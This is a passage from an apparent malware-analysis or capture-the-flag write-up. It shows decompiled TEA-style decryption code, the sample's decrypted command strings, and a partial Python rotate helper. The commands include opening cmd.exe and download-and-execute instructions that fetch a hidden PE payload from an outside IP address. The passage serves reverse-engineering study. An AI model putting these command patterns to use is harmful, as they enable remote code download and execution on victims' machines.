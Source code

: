 ```c
                v55 = v53 - ((v18 + v63[v18 & 3]) ^ (v54 + ((16 * v54) ^ (v54 >> 5))));
                v56 = (v18 + v63[(v18 >> 11) & 3]) ^ (v55 + ((16 * v55) ^ (v55 >> 5)));
                v18 += 0x61C88647;
                v57 = v54 - v56;
                v58 = v55 - ((v18 + v63[v18 & 3]) ^ (v57 + ((16 * v57) ^ (v57 >> 5))));
                v59 = (v18 + v63[(v18 >> 11) & 3]) ^ (v58 + ((16 * v58) ^ (v58 >> 5)));
                v18 += 0x61C88647;
                v60 = v57 - v59;
                v61 = v58 - ((v18 + v63[v18 & 3]) ^ (v60 + ((16 * v60) ^ (v60 >> 5))));
                v16 = v60 - ((v18 + v63[(v18 >> 11) & 3]) ^ (v61 + ((16 * v61) ^ (v61 >> 5))));
                v12 = v18 + 0x61C88647;
                v13 = v12;
                v15 = v61 - ((v12 + v63[v12 & 3]) ^ (v16 + ((16 * v16) ^ (v16 >> 5))));
                --v14;
            } while (v14);
            *v11 = _byteswap_ulong(v15);
            v9 += 8;
            v11[1] = _byteswap_ulong(v16);
            v11 += 2;
            --v10;
        } while (v10);
    }
    return v8;
}

```

Then, by calling this function at the appropriate time, we can decrypt the following effective commands in order:

```
CMDSHEL|C:\windows\system32\cmd.exe
EXECCMD|cd %temp%
EXITSHEL
DOWNEXEC|http://192.168.138.67:8080/data.png|DEKRYPT|0
DOWNEXEC|http://192.168.138.67:8080/data.txt|DEKRYPT|1
```

Simultaneously, we can find HTTP requests and subsequent TCP stream transmissions. Merging the chunks, we get `data.png` and `data.txt`.

Among them, through the `MZ` header, we can clearly tell that `data.txt` is actually a PE file.

(Details about other branches are omitted in this writeup for brevity, but I did analyze them.)

Meanwhile, let's write a function to convert command names to their corresponding DWORDs:

```python
def rol(value, count, bits=32):
    """
    Simulates the __ROL__ (Rotate Left) function for a given number of bits.

    Args:
        value: The integer value to rotate.
        count: The number of bits to rotate left (positive).
               To rotate right, use a negative count.
        bits: The number of bits in the value (default 32, like uint32).

    Returns:
        The left-rotated integer value.
    """
    count %= bits  # Normalize count
    if count > 0:
        high = value >> (bits - count)
        # In Python, we don't need the signed check and masking for rotation
        # because Python integers handle bitwise operations appropriately for rotation.
        value <<= count
```